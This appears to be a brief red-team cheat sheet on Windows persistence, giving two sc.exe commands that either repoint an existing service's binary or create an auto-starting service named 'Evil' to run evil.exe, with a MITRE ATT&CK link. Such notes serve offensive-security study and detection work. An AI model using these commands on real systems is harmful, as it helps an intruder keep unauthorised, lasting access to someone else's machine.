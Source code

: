 # Service Execution for Persistence

## Method 1. Changing A Binary Path of A Service

The following command changes the binary path for a target service. This command requires `Administrator` privileges.  
Replace the "Service Name" with your target service.

```powershell
sc.exe config "Service Name" binPath= "C:\evil.exe"
```

## Method 2. Creating A Malicious Service

This command creates the "Evil" service that executes the `evil.exe`. It also requires `Administrator` privileges.

```powershell
sc.exe create Evil binPath="C:\evil.exe" start= auto
```

## Resources

- [MITRE ATT&CK](https://attack.mitre.org/techniques/T1569/002/)